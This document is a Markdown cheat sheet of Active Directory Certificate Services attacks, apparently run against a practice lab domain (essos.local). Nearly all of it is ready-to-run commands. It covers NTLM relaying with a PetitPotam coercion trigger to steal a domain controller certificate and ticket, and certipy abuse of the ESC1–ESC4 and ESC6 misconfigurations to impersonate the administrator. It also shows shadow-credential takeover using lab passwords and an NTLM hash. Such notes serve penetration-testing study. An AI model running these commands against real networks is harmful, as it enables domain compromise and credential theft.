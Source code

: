 # ADCS

- Target running ADCS: `10.10.10.23 (braavos.essos.local)`
- DC: `10.10.10.12 (meereen.essos.local)`
- Attacker listening on: `10.10.10.200`

## Tools

- [PKINIT Tools](https://github.com/dirkjanm/PKINITtools)
    ```sh
    git clone https://github.com/dirkjanm/PKINITtools
    virtualenv -p python3 venv

    # choose either one
    pip install https://github.com/wbond/oscrypto/archive/d5f3437ed24257895ae1edd9e503cfb352e635a8.zip
    pip install 'oscrypto @ git+https://github.com/wbond/oscrypto.git'

    pip install minikerberos impacket
    ```

- [petitpotam](https://github.com/topotam/PetitPotam)
- [certipy](https://github.com/ly4k/Certipy)

## ntlmrelayx + petitpotam

```sh
# To obtain the DC computer account certificate in base64 format when petitpotam is run
ntlmrelayx -t http://10.10.10.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Trigger
petitpotam.py 10.10.10.200 meereen.essos.local

# Obtain TGT
gettgtpkinit.py -dc-ip 10.10.10.12 -pfx-base64 $(cat cert.b64) 'essos.local'/'meereen$' 'meereen.ccache'
```

If `gettgtpkinit` returns this error, most probably time issue between DCs

```console
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_CLIENT_NOT_TRUSTED Detail: "The client trust failed or is not implemented"
```

## certipy + petitpotam

```sh
# Certipy v4.8.2
# To obtain the DC computer account certificate in .pfx when petitpotam is run
certipy relay -target http://10.10.10.23/certsrv/certfnsh.asp -template DomainController
# or
certipy relay -ca ESSOS-CA -target http://10.10.10.23/certsrv/certfnsh.asp -template DomainController

petitpotam.py 10.10.10.200 meereen.essos.local

# Obtain TGT
certipy auth -pfx ./meereen.pfx -dc-ip 10.10.10.12
# or
certipy auth -pfx <(base64 -d cert.b64) -dc-ip 10.10.10.12
```

## certipy enumeration

```sh
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 10.10.10.12
```

## certipy exploitation

### ESC1

```sh
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.12
```

### ESC2

```sh
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC2 -ca ESSOS-CA
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.12
```

### ESC3

```sh
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC3-CRA -ca ESSOS-CA
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC3 -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.12
# or
certipy auth -pfx administrator.pfx -username administrator -domain essos.local -dc-ip 10.10.10.12
```

### ESC4

Modifies `ESC4` to be `ESC1` with `genericWrite` privilege

```sh
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old

# same as ESC1
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local

certipy auth -pfx administrator.pfx -dc-ip 10.10.10.12

certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```

### ESC6

> Because ESSOS-CA is vulnerable to ESC6 we can do the ESC1 attack but with the user template instead of the ESC1 template even if the user template got Enrollee Supplies Subject set to false.

```sh
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local

certipy auth -pfx administrator.pfx -dc-ip 10.10.10.12
```

### Shadow Credentials

- requires `GenericWrite` on another user.
- requires ADCS enabled on domain
- requires write privilege on `msDS-KeyCredentialLink`

```sh
# khal.drogo ---[GenericAll]---> viserys.targaryen ---[GenericWrite]---> jorah.mormont
certipy shadow auto -u khal.drogo@essos.local -p 'horse' -account 'viserys.targaryen'
certipy shadow auto -u viserys.targaryen@essos.local -hashes 'd96a55df6bef5e0b4d6d956088036097' -account 'jorah.mormont'
```

## Further Reading

- [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [RBDC](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)


